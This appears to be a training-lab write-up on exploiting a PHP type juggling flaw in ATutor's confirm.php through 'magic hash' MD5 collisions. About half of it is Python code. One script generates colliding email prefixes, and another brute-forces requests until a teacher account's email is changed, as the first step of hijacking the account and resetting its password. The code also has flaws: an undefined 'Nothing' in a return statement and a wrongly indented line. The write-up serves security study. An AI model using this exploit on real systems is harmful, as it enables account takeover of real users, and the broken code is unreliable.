









## What is Type Juggling
A type juggling vulnerability arises when loose comparisons(== or == ! ) are employed instead of strict comparisons (=== or !== ) in an area where the attacker can control one of the variables being controlled.

For instance:



We see that comparing:
1. Hex value in string type to integer value in string type
2. Hex value in string type and integer value in integer type
3. Hex value in integer type and integer value in integer type
all give true.

For atutor, we are interested in scientific exponential number notations.
Any time if a string starts with any number of digits, followed by the letter "e", which is then followed by any number of digits, the string is used in numeric context, and will be evaluated as a number.

In the following example:



We see that, the automatic string-to-integer casting is working as expected even when the exponential notation is involved.

## Type Juggling Atutor
In context of Atutor, we  find a publicly accessible confirm.php page, where we see the following chunk of code:



We see that if the GET request variables, 'e', 'id' and 'm' are set, the values are then set to their respective variables.
The non-working addslashes function is being used.
The id variable is then used to build the sql query. The id variable is typecast into an integer and that query is also properly parameterized for the queryDB function(elimination the chance of sql injection).
Finally, there's a check for the creation date of user's email by comparing it if a creation date exists.

Going further:



The $code variable is initialized with the MD5 hash of the concatenated string consisting of 2 values that we control i.e. $e and $id  and the creation date entry, returned from the database by the previously analyzed SELECT query.
Moreover, only the first 10 characters of the MD5 hash are being assigned to the $code variable.

The vulnerable part then arrives, where we see a loose comparison of the $code and $m variable.
Here, we fully control the $m variable and partially control the $code variable.

## Exploiting Magic Hashes
To exploit a type juggling vulnerability, we use magic hashes.
A magic hash is basically a string that is when converted into a hash, creates a string starting with 0, followed by the letter "e", followed by other digits.
For instance:



Here, the md5 hash of the given number, starts with 0, followed by the letter 'e', followed by a numerical string.
This means, this number can exploit a type juggling vulnerability.

In our Atutor instance, the hash formed for the loose comparison is created by the email, the creation date and the id.
We can create a similar magic hash generator in python as follows:

```python
import hashlib, string, itertools, re, sys

def gen_code(domain, id, date, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        hash = hashlib.md5("%s@%s" % (word, domain) + date + id).hexdigest()[:10]
        if re.match(r'0+[eE]\d+$', hash):
            print "(+) Found a valid email! %s@%s" % (word, domain)
            print "(+) Requests made: %d" % count
            print "(+) Equivalent loose comparison: %s == 0\n" % (hash)
        count += 1

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <creation_date> <prefix_length>' % sys.argv[0]
        print '(+) eg: %s offsec.local 3 "2018-06-10 23:59:59" 3'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    creation_date  = sys.argv[3]
    prefix_length = sys.argv[4]

    gen_code(domain, id, creation_date, prefix_length)

if __name__ == "__main__":
    main()
```

The script, takes a domain(that we control), id, creation date and a set of alpha characters, to create all possible combinations of usernames, where the md5 hash results to a scientific exponent string.

The result of the script is as follows:



In a 3 character set, the number of requests made is 617, which is not a lot.

We can use this logic, to create a script, that brute forces the web application into generating a redirect request, which is created if the md5 of email gives 0eDDD.

```python
import hashlib, string, itertools, re, sys, requests

def update_email(ip, domain, id, prefix_length):
    count = 0
    for word in itertools.imap(''.join, itertools.product(string.lowercase, repeat=int(prefix_length))):
        email = "%s@%s" % (word, domain)
        url = "http://%s/ATutor/confirm.php?e=%s&m=0&id=%s" % (ip, email, id)
	      print "(*) Issuing update request to URL: %s" % url
        r = requests.get(url, allow_redirects=False)
        if (r.status_code == 302):
            return (True, email, count)
        else:
            count += 1
    return (False, Nothing, count)

def main():
    if len(sys.argv) != 5:
        print '(+) usage: %s <domain_name> <id> <prefix_length> <atutor_ip>' % sys.argv[0]
        print '(+) eg: %s offsec.local 1 3 192.168.1.2'  % sys.argv[0]
        sys.exit(-1)

    domain = sys.argv[1]
    id = sys.argv[2]
    prefix_length = sys.argv[3]
    ip = sys.argv[4]

    result, email, c = update_email(ip, domain, id, prefix_length)
    if(result):
        print "(+) Account hijacked with email %s using %d requests!" % (email, c)
    else:
        print "(-) Account hijacking failed!"

if __name__ == "__main__":
    main()
```

Executing the script, we see that the email for the teacher account is changed:



After 2335 attempts, we find the username that will bypass authentication.
And the teacher account is hijacked:



With the email changed, we can now request an change password on this account:



By changing the password, we can then login with the new password and move forward to exploit the file upload vulnerability.
